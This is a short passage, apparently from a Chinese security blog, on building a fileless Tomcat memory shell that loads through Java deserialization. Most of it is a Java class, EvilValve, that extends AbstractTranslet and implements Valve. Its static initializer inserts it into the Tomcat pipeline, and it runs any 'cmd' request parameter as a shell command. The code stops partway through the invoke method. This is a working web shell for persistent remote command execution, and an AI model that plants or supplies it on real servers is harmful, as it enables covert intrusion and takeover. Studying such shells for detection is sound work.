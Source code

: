 ```java
```
![](https://img-blog.csdnimg.cn/616cb09d8ce64b538d28a2b359644015.png)

#### 无文件内存马
网上全是继承`ValveBase`类，但是如果是反序列化要满足TemplatesImpl的加载，需要继承AbstractTranslet，但又不能继承多个类，那么就需要使用接口了
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Valve;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;

public class EvilValve extends AbstractTranslet implements Valve {
    protected Valve next;
    static {
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            standardContext.getPipeline().addValve(new EvilValve());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Valve getNext() {
        return this.next;
    }

    @Override
    public void setNext(Valve valve) {
        this.next = valve;
    }

    @Override
    public void backgroundProcess() {
    }

    @Override
    public void invoke(Request request, Response response) {
        try {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
```